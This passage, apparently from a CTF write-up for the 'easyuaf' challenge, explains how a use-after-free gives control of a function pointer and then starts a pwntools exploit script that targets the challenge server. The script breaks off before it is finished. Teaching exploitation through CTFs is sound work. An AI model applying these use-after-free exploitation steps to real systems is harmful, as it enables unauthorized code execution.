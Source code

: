 ![It crashed!](./images/easyuaf5.png)

When we tried to call 0x0000000300000002, the binary crashed, because that's not a valid function address. Now we know how to control the display function! The address of ezflag can be found using r2, which is 0x401276 (4199030 base 10). Since it's small enough to fit into the personal contact number, we don't need to care about the business contact number.

Let's make our exploit now!

```py
from pwn import *
import sys

# --- setup ---
elf = context.binary = ELF('./easyuaf')
if sys.argv[1] == 'l':
    p = process()
    gdb.attach(p)
else:
    p = remote('challs.nusgreyhats.org', 10525)

# --- exploit ---
def alloc_person(p, id, personal_num, business_num):
    p.clean()
    name, age = 'PPPP', 200

    p.sendline(b'1')
    p.sendline(str(id))
    p.sendline(name)
    p.sendline(str(age))

    # stuff we want to control
    p.sendline(str(personal_num))
    p.sendline(str(business_num))

def alloc_org(p, id):
    p.clean()
    name, style = 'OOOO', 1
```